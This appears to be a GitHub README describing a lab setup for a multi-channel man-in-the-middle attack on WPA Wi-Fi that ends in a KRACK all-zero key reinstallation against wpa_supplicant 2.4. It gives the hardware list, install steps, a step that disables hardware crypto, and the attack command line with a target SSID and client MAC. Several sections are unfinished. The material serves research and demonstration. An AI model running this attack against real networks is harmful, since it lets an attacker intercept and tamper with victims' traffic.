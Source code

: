 # Multi Channel Man-in-the-Middle Attacks Against Protected Wi-Fi Networks
This activity describes how to perform MC-MitM (Improved Variant) attack using channel switch announcements.To execute this attack, two important the packeges such as python2.7 and scapy 2.3.3 are required.Note that this attack will not be successful with latest scapy versions 2.4.3. In this case it is advisble to remove higher versions of scapy and then downgrade to 2.3.3. In particular, this MC-MitM attack ultimately peforms a key reinstalltion attack on Linux machine. More specifically, the all-zero encryption key attack on vulnerable wpa_supplicants (2.4 or below) that comes with various Linux distributions. Please, use [this tool](https://github.com/lucascouto/krackattacks-scripts) to verify the client is vunarable to the attack or not. 
## Brief Background  
Under Construction
## Attack Environment Setup
<p align="center">
  <img src="https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks-By-Base-Variant-/blob/main/MC-MitM-IV-Attack.png">
</p>

* Attacker Machine
  * HP Elite 8300 SFF Quad Core
  * OS: Kali Linux 2019.4(5.3.0-kali2-amd64)
  * Two Wi-Fi Cards: Qualcomm Atheros Communications AR9271. Driver: ath9k_htc
  * Android smartphone connected via usb to provide 4g Internet

* Client or Victim Machine:
  * Dell Inspiron 15 30000 series
  * OS: Ubuntu 17.04
  * wpa_supplicant v2.4 (2.4-0ubuntu6 am64)

* Access Point:
  * D-Link AX 1500 Wi-Fi 6 Router
  * Hardware Version: A2
  * Firmware Version: 1.08
  * Configured with 50% TX power and channel 1
  
## Prerequisites and Installation Procedure
### 1. Install the following dependencies on Kali Linux:
```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-pycryptodome
```
### 2. Install the following scapy package
Now-a-days,kali linux comes with latest version of scapy (version 2.4.3 or above).This attack script will not work on this new scapy version. Therefore, as pointed earlier,uninstall the scapy first and reinstall scapy as described below. 
```
$ pip install scapy==2.3.3
```
If the above command gives error, please try following procedure to install scapy 2.3.3
```
1. Go to https://pypi.org/project/scapy/2.3.3/#files
2. Download "scapy-2.3.3.tgz (1.4 MB)" folder
3. Unzip/extract the folder
4. Open a terminal in scapy-2.3.3 folder
5. Type sudo python2.7 setup.py install
```
### 3. Install the following python package for MC-MitM attack setup
```
$pip install --user mitm_channel_based
```
If the above command gives error, please try following procedure to install MC-MitM package
```
1. Go to https://pypi.org/project/mitm-channel-based/#description
2. Click on "Download files" link
3. Download "mitm_channel_based-0.0.5.tar.gz (11.7 kB)" file
4. Go to your download folder and unzip the above folder
5. Open a terminal in "mitm_channel_based-0.0.5" folder
6. Type sudo python2.7 setup.py install
```
### 4. Warnings
Perform the following before executing the attack
```
1. Goto "krackattack-all-zero-tk-key-master" folder
2. Execute the script "./disable-hwcrypto.sh" to disable hardware encryption
3. Reboot the system
4. Verify whether the flag (nohwcrypt = "1") has been set using the command "systool -vm ath9k_htc"
5. Disable Wi-Fi or type sudo nmcli radio wifi
6. Type sudo rfkill unblock wifi
```
## Tool Usage
 The attack tool can be executed using follwoing command line arguments. Download attack folder from the link (Under construction). 

 ```
 $sudo ./krack_all_zero_tk.py wlan1 wlan0 eth0 "Manesh_WiFi" -t e4:02:9b:cd:3b:92
 ```
 ### Below are the details of wireless interfaces
 
 * `wlan1`: interface that listens and injects packets on the real channel
 * `wlan0`: interface that runs the Rogue AP
 * `eth0`: interface providing internet access to the victim
 * `"Manesh_WiFi"`: SSID of the target network
 * `-t e4:02:9b:cd:3b:92`: MAC address of the attacked client
 * You can see many other options running `./krackattack/krack_all_zero_tk.py -h`!
 

 ### Files Generated
 After running the script for the first time, some new files will be generated:
 ```
 * `dnsmasq.conf`: configuration file for DHCP and DNS services
 * `dnsmasq_log`: output from dnsmasq
 * `hostapd_rogue.conf`: configuration file for the rogue ap clone from the real ap
 * `hostapd_rogue.log`: output from hostapd_rogue
 * `rogue_ap_capture.pcap`: file containing packets capture from the rogue ap interface
 ```
  ## Demonstration Video
[![Analysis of Network behavior during channel switch announcements](https://github.com/maneshthankappan/Multi-Channel-Man-in-the-Middle-Attacks-Against-Protected-Wi-Fi-Networks/blob/main/thumb.jpg)](https://www.youtube.com/watch?v=axqbioyjom0)

  ## Analysis of network behavior during MC-MitM attack
  Under construction  
  
  ## Troubleshooting
  Under construction  
 hhhhhh
  ### References
